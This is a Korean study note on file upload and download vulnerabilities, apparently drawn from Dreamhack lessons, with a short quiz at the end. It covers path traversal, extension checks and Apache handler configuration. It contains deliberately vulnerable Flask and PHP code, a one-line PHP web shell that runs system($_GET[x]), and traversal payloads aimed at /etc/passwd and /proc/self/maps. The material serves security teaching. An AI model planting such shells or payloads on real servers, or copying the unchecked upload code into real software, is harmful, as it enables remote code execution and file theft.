

# File Upload Vulnerability  
File Upload Vulnerability : **공격자의 파일**을 웹 서비스의 파일 시스템에 **업로드하는 과정에서 발생**하는 보안 취약점입니다. 이용자가 업로드될 **파일의 이름을 임의로 정할 수** 있을 때 발생합니다.  
## Path Traversal  
Path Traversal : 서비스에서 **특정 디렉터리에만 업로드를 허용하는 제약을 우회**해서, **임의 디렉터리에 파일을 업로드**할 수 있는 취약점  
```python
from flask import Flask, request
app = Flask(__name__)
@app.route('/fileUpload', methods = ['GET', 'POST'])
def upload_file():
	if request.method == 'POST':
		f = request.files['file']
		f.save("./uploads/" + f.filename)
		return 'Upload Success'
	else:
		return """
		<form action="/fileUpload" method="POST" enctype="multipart/form-data">
			<input type="file" name="file" />
			<input type="submit"/>
		</form>
		"""
if __name__ == '__main__':
	app.run()
```
위 코드에서 POST 요청을 받으면, 전송받은 파일을 uploads에 이름은 filename 그대로 저장하기 때문에, 여기서 **../** 와 같은 상위 디렉터리를 의미하는 메타문자를 사용하면, uploads 의 상위 디렉터리로 접근할 수 있습니다.  
## 정상적인 파일 요청  
```shell
POST /fileUpload HTTP/1.1
Host: storage.dreamhack.io
Origin: https://storage.dreamhack.io
Content-Type: multipart/form-data; boundary=----WebKitFormBoundary20y3eoLVSNf9Ns5i
------WebKitFormBoundary20y3eoLVSNf9Ns5i
Content-Disposition: form-data; name="file"; filename="test.txt"
Content-Type: text/plain
upload test !
------WebKitFormBoundary20y3eoLVSNf9Ns5i--
```
파일을 정상적으로 업로드하면, 위와 같은 HTTP request 가 전송됩니다.  
```shell
$ ls -lR
-rw-r--r--  1 dreamhack  staff  461  1 30 21:52 app.py
drwxr-xr-x  3 dreamhack  staff   96  1 30 21:31 uploads
./uploads:
total 8
-rw-r--r--  1 dreamhack  staff   13  1 30 21:31 test.txt
```
다음과 같이 test.txt 파일이 uploads 디렉터리 안에 있는 것을 확인할 수 있습니다.  

## 악의적인 파일 요청  
```shell
POST /fileUpload HTTP/1.1
Host: storage.dreamhack.io
Origin: https://storage.dreamhack.io
Content-Type: multipart/form-data; boundary=----WebKitFormBoundary20y3eoLVSNf9Ns5i
------WebKitFormBoundary20y3eoLVSNf9Ns5i
Content-Disposition: form-data; name="file"; filename="../hack.py"
Content-Type: text/plain
[malicious file content]
------WebKitFormBoundary20y3eoLVSNf9Ns5i--
```
여기서는 파일 이름을 ../hack.py 라고 적어서, uploads 의 상위 디렉터리로 접근할 수 있게 했습니다.  
```shell
$ ls -lR
-rw-r--r--  1 dreamhack  staff  461  1 30 21:52 app.py
-rw-r--r--  1 dreamhack  staff  431  1 30 22:12 hack.py
drwxr-xr-x  3 dreamhack  staff   96  1 30 21:31 uploads
./uploads:
total 8
-rw-r--r--  1 dreamhack  staff   13  1 30 21:31 test.txt
```
지금 이 경우를 보면, hack.py가 uploads 에 있는게 아니라, 상위 디렉터리에 있는 것을 알 수 있습니다.  
## 악성 파일 업로드  
악성 파일 업로드 취약점 : 이용자가 **파일을 업로드**할 때, 이를 제대로 **검사하지 않아서 발생**하는 취약점  
### 웹 셸  
웹 서버는 **.php, .jsp, .asp**와 같은 확장자의 파일을 **Common Gateway Interface(CGI)로 실행**하고, 그 결과를 이용자에게 반환합니다.  
```
<FilesMatch ".+\.ph(p[3457]?|t|tml)$">
    SetHandler application/x-httpd-php
</FilesMatch>
```
위는 이용자가 요청한 파일의 확장자가 정규표현식 **".+\.ph(p[3457]?|t|tml)$"** 를 만족하면, x-httpd-php로 핸들링하게 하는 Apache 설정 파일입니다.  
### 악의적인 웹 리소스  
공격자가 서버에 **exploit.html을 업로드**하고, 이에 접근하는 URL이 **https://dreamhack.io/uploads/exploit.html** 이라면, 브라우저는 이를 **HTML로 해석**  
-> 이 때, **exploit.html 파일에 악성 스크립트**가 있다면, **XSS 공격**으로 이어질 수 있다.
## 악성 파일 업로드 실습  
```php
<?php
if(!empty($_FILES['file'])){
  $filename = "user_uploaded_file_".time();
  $ext = pathinfo($_FILES['file']['name'], PATHINFO_EXTENSION);
  $path = "./uploads/" . $filename . "." . $ext;
  
  if(move_uploaded_file($_FILES['file']['tmp_name'], $path)) {
    return true; // upload success
  } else {
    return false; // upload fail
  }
}
?>
```
여기서는 파일 이름을 **임의의 파일명 + "." + 확장자**으로 생성해서, Path Traversal 은 불가능하지만, 확장자를 검사하지 않는다.  
-> php나 html 파일을 업로드해서 악성 스크립트 발생 가능!!  
   
다음과 같이 html 파일을 업로드 하면, 스크립트가 발생하는 것을 알 수 있습니다.  
```php
<?php
  system("ls");
  system($_GET[x]);
?>
```
html 파일 말고, 다음과 같이 php 파일을 사용할 수 있다.
# File Download Vulnerability  
## 파일 다운로드 취약점  
File Download Vulnerability : 웹 서비스를 통해 서버의 파일 시스템에 존재하는 **파일을 내려 받는 과정에서 발생**하는 보안 취약점이며, 이용자가 **다운로드할 파일의 이름을 임의로 정할 수** 있을 때 발생합니다.  
Path Traversal을 이용한 파일 다운로드 취약점 : **파일 이름을 직접 입력 받아** 임의 디렉터리에 있는 파일을 다운로드 받을 수 있는 취약점  
예시  
```
https://vulnerable-web.dreamhack.io/download/?filename=notes.txt  
https://vulnerable-web.dreamhack.io/download/?filename=../../../../../../etc/passwd  
https://vulnerable-web.dreamhack.io/images.php?fn=6ed0dd02806fa89e233b84f4.png  
```

## 파일 다운로드 취약점 실습  
```python
# ...
Secret = os.environ("Secret")
# ...
@app.route("/download")
def download():
    filename = request.args.get("filename")
    content = open("./uploads/" + filename, "rb").read()
    return content
# ...
```
환경 변수로부터 가지고 오는 Secret 값을 파일 다운로드 취약점을 이용해 획득하는 실습입니다.  
  
다음과 같이 Path Traversal 을 통해 취약점을 찾을 수 있습니다.  
# 퀴즈  
1. 파일 다운로드 취약점(File Download Vulnerability)의 설명으로 올바른 것은?  
답 : 웹 서비스를 통해 서버의 파일 시스템에 존재하는 파일을 내려 받는 과정에서 발생하는 보안 취약점이며, 이용자가 다운로드할 파일의 이름을 임의로 정할 수 있을 때 발생합니다.
2. 파일 다운로드 취약점이 발생하는 코드이다, "filename" 인자에 어떠한 값을 넣어야 현재 실행중인 프로세스의 메모리 정보를 볼 수 있는가?
```python
@app.route("/download")
def download():
    filename = request.args.get("filename")
    content = open("/data/uploads/" + filename, "rb").read()
    return content
```
답 : ../../proc/self/maps, ../../../proc/self/maps  
3. php 확장자를 가진 파일이 정상적으로 php 스크립트 엔진에 실행되고자 한다. (A)와 (B)에 들어갈 말로 올바른 것은?  
```php
<FilesMatch ".+\.ph(p[3457]?|t|tml)$">
    (A) (B)
</FilesMatch>
```
답 : SetHandler, application/x-httpd-php  
4. 악성 파일 업로드를 통해 할 수 있는 행위를 모두 고르시오  
답 : Cookie Hijacking, Remote Code Execution, Cross Site Scripting, Cross Site Request Forgery(전부 다)  

    
